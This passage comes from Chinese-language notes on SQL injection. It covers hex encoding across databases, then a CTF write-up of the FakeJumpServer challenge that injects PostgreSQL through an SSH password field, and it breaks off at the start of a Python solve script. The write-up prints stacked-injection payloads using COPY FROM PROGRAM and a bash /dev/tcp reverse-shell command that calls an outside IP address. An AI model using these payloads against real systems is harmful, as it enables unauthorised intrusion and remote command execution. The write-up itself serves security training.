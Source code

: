 #### Oracle DB

和 sqlite 一致

#### MS SQL（SQL Server）

和 sqlite 一致

### 编码

各数据库中，是否支持某些十六进制或 Unicode 编码？

编码一般只能用来表达常量字符串，无法表示sql语句中的关键字

Mysql：

* 十六进制编码 `X'01AF'` 或者 `0x01AF`
* 不支持 Unicode 编码


## 例题

### （Vqs147）2025阿里云CTF FakeJumpServer

题目只给了一个IP：114.55.146.242，没有任何其它信息，出题人提示：请从实战角度考虑该题，不需要任何脑洞。

1、先扫描端口发现22端口开放，nc连接看到：

`> nc 114.55.146.242 22 `

`SSH-2.0-FakeJumpServer`

是自定义的banner。

2、ssh登录要输入用户名和密码，既然从黑盒测试角度出发，遇到能输入的地方就要测试SQL注入。

先测试数据库类型，`username = "root"   password = "';select pg_sleep(10);-- "`成功延时了，说明数据库是PostgreSQL，可以堆叠注入，而PostgreSQL很方便命令执行，例如：`CREATE TABLE shell(output text); COPY shell FROM PROGRAM '...';`

3、尝试反弹shell，`password = "';CREATE TABLE shell(output text);COPY shell FROM PROGRAM 'bash -i >& /dev/tcp/124.70.132.209/6667 0>&1';"`没有成功，可能过滤了关键字或者有长度限制。

先考虑长度限制，把payload换到username中发现失败了，推测只有password字段被拼接到了SQL语句中。此时可以分多次把要执行的命令写入到/tmp/1.sh中，然后运行它：

解题脚本：

```python
import paramiko


def ssh_execute_command(hostname, username, password, command, port=22):
    """
    建立SSH连接，执行单条命令，然后关闭连接。一个完整的原子操作。

    Args:
        hostname (str): 服务器的主机名或IP地址。
        username (str): 登录用户名。
        password (str): 登录密码。
        command (str): 要在远程服务器上执行的命令。
        port (int, optional): SSH端口，默认为 22。

    Returns:
        tuple: 一个包含三个元素的元组 (stdout, stderr, exit_status)
               - stdout (str): 命令的标准输出。
               - stderr (str): 命令的标准错误输出。
               - exit_status (int): 命令的退出状态码 (0通常表示成功)。
               如果连接失败，则返回 (None, '错误信息', -1)。
    """
    client = None  # 初始化client变量
    try:
```